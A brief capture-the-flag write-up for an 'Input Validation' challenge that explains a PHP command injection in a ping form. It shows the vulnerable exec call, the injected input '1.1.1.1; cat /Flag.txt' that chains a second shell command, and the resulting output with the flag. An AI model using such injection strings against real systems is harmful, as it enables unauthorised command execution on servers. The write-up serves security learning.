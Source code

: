 # Ryan CTF: Advanced

### Input Validation

This is a simple command injection, the php is executing the line `exec("ping -c 4 " . $_GET["ip"], $out);`, with the `GET` parameter `ip` that we control.
This way, similarly to SQL injection, we can end the `ping` command with a semicolon `;` (in linux) and the write the second command afterwards. 
Let's try to give the input `1.1.1.1; cat /Flag.txt`, we get 

```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data. 
64 bytes from 1.1.1.1: icmp_seq=1 ttl=55 time=13.0 ms 
64 bytes from 1.1.1.1: icmp_seq=2 ttl=55 time=12.3 ms 
64 bytes from 1.1.1.1: icmp_seq=3 ttl=55 time=12.2 ms 
64 bytes from 1.1.1.1: icmp_seq=4 ttl=55 time=12.3 ms 

--- 1.1.1.1 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3003ms 
rtt min/avg/max/mdev = 12.253/12.502/13.068/0.338 ms 
Flag: pluripresence 
```